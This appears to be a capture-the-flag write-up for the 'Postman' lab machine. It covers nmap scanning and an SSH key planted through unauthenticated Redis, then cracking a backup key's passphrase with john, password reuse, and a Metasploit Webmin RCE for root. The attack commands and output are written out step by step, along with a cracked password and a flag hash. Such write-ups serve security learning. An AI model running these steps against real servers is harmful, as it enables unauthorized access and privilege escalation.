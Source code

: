 ## Postman

### Lab Details 

- Difficulty: Easy
- Type: Redis, Webmin, SSH, Priv Esc, Linux

#### Tasks
Q1: What version of Redis is running on port 6379?
- run `nmap -sT -T4 -vv -A -p- -oA Postman target_ip`
```
6379/open/tcp//redis//Redis key-value store 4.0.9/
```

Q2: What is the config directory for redis?
- to find the config directory for redis firt need to connect to redis services 
`redis-cli -h target_ip`
- then locate the config directory by running below `config get dir` or `config get *` to get all configuration settings
```
10.10.10.160:6379> config get dir 
1) "dir"
2) "/var/lib/redis" -> this is the config directory 

10.10.10.160:6379> config get * 
...
##return a list of key-value pairs where each key is a configuration parameter and the corresponding value is its current setting.
1) "dbfilename"         #Key: Name of the RDB snapshot file
2) "dump.rdb"           #Value: Default filename
3) "requirepass"        #Key: Password for authentication
4) ""                   #Value: no password set  
5) "dir"                #Key: Directory for persistence files
6) "/var/lib/redis"     #Value: Default storage directory 
...
165) "dir"              #Key:  Working directory where Redis stores
166) "/var/lib/redis"   #Value: The directory where Redis saves its persistent data
...
```

Q3: As which user you can get code execution through Redis?
- since requirepass is no value which means anyone can access/modify data remotely 
- check if we can run whoami on redis remote by running `ACL whoami` however return error
```
10.10.10.160:6379> ACL whoami
(error) ERR unknown command 'ACL'
```
- check remote version
```
10.10.10.160:6379> info server
# Server
redis_version:4.0.9
```
- test if we have write permission over remote redis service 
``` 
10.10.10.160:6379> set test:write "hello world"
OK
```
- in the end i wasnt able to get the name from remote instance so i tried default and then redis and redis is the correct answer i think its might be due to the config location sometimes it can be at /home/redis and /home is where local user directory resides

Q4: What's the full path of an SSH backup key that redis can read?
- in order to read the path we will need to first gain the initial foodhold over the remote target
- we can exploit the lack of write restriction by uploading self generated public key to the remote target 
- below are lins to useful posts on how to perform such attack
  - https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419 - https://secybr.com/posts/redis-pentesting-best-practices/
- gist as per below
```
$: ssh-keygen -t rsa
$: (echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt
$: cat foo.txt | redis-cli -h 10.10.x.x -x set crackit
$:  redis-cli -h 10.10.x.x
10.10.x.x:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.x.x:6379> config set dbfilename "authorized_keys"
OK
10.10.x.x:6379> save
OK
```
- after uploading the public key to remote we can ssh in using the corresponding private key and user named redis
```
ssh -i id_rsa redis@target_ip
```
- we get a shell as redis
```
redis@Postman:~$ whoami
redis
```
- run linpeas.sh to gain more info on the target, we found `id_rsa.bak` for user Matt
```
╔══════════╣ Backup files (limited 100)
-rwxr-xr-x 1 Matt Matt 1743 Aug 26  2019 /opt/id_rsa.bak 
```
- the last permission bit gives others rx access

Q5: What is the password for the SSH key?
- the private key requires password when `ssh -i id_rsa Matt@target_ip`
- therefore need to crack it, below is using john as hashcat does not support ssh hash type
```
$: ssh2john id_rsa > rsa.hash 
$: john --wordlist=/usr/share/wordlists/rockyou.txt rsa.hash 
...
computer2008     (id_rsa_matt)
```

Q6: Which user uses the same password as the one used to decrypt the SSH key?
 - Matt is the user as its owned by Matt

Q7: Submit the flag located in the Matt user's home directory.
- `cat /home/Matt/user.txt`

Q8: Which vulnerable version of Webmin is running on the machine?
- found theres `/usr/share/webmin/` directory on the machine and there is a version file in that directory 
- `cat version` -> 1.910 
```
╔══════════╣ Analyzing Postfix Files (limit 70)
...
drwxr-xr-x 5 root root 12288 Aug 25  2019 /usr/share/webmin/postfix
```


Q9: Which user does the Webmin instance run as?
- based on the output of linpeas.sh webmin is running as root 
```
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                            
                ╚════════════════════════════════════════════════╝                                            
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes
...
root        724  0.0  3.1  90944 28832 ?        Ss   11:51   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
...

Q10: 
- use linux/http/webmin_packageup_rce from msfconsole
- set SSL = True and the rest of the info, username is Matt and password is computer2008
- will get a root shell back 
```
root@Postman:/usr/share/webmin/package-updates/# cat /root/root.txt
cat /root/root.txt
2b45ad724078db87b9cbb053aaa9ada5
```



#### Lesson Learned
- learned how to compromise weakly configured redis server but using readily available info
- use john to crack ssh private key passwords
